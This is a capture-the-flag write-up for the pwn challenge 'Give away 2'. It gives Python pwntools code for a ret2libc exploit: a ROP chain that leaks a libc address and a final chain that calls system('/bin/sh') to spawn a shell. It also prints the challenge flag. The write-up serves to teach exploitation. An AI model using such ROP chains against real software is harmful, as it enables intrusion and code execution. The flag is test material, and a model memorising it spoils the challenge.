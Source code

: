 # Give away 2 writeup


## Content

This writeup is about PWN challenge

	* libc-2.27.so: shared library (given)
	* give_away_2: challenge binary (given)
	* ropy_exploit.py: Full exploit

![description](./screenshots/give_away_2.png)


## Binary analysis

Quick check of the binary on ida gives

* main

![main](./screenshots/ida_main.png)

* vuln 

![vuln](./screenshots/ida_vuln.png)


checksec reveal that PIE is enabled which explain the purpose of leaking the address of main. So we can compute the base of the progrma later

![checksec](./screenshots/checksec.png)

## Exploit

The attack will be ret2libc but first we need to leak libc base using rop attack.

1. Step I: leaking `__libc_start_main` address

```python
base_prog = MAIN - 0x864 # compute the program base address based on the main address printed out from the program

PRINTF = elf.plt['printf'] + base_prog 
LIBC_START_MAIN = elf.symbols['__libc_start_main']  + base_prog

POP_RDI = 0x0000000000000903 + base_prog
POP_RSI = 0x0000000000000901 + base_prog
RET = 0x0000000000000676 + base_prog

#Overflow buffer until return address
padding = "A"*40
# Create rop chain
rop2 = padding +p64(POP_RDI) + p64(LIBC_START_MAIN) + p64(RET) + p64(PRINTF) + p64(RET)+p64(MAIN)
#Send our rop-chain payload
p.sendline(rop2)
```

2. Step II: Parse the leaked address

```python
recieved = p.recvline().strip().split('Give')
leak = u64(recieved[0].ljust(8, "\x00"))
log.info("Leaked libc address,  __libc_start_main: %s" % hex(leak))

libc.address = leak - libc.sym["__libc_start_main"]
log.info("Address of libc %s " % hex(libc.address))
``` 

3. Step III: Create and send the final rop

```python

BINSH = next(libc.search("/bin/sh")) 
SYSTEM = libc.sym["system"]

log.info("bin/sh %s " % hex(BINSH))
log.info("system %s " % hex(SYSTEM))

final_rop = padding + p64(RET) + p64(POP_RDI) + p64(BINSH) + p64(RET) + p64(SYSTEM)

p.sendline(final_rop)
```


## Notes

* Find the full exploit in `ropy_exploit.py`
* Flag: shkCTF{It's_time_to_get_down_to_business}

* The length of the payload had to be multiple of 16 because the stack should be 16-byes aligned that's why we add RET in the rop chain. Otherwise you'll stuck in the movaps segfault problem (it was my case :') )

![movaps segfault](./screenshots/printf_segfault.jpg)

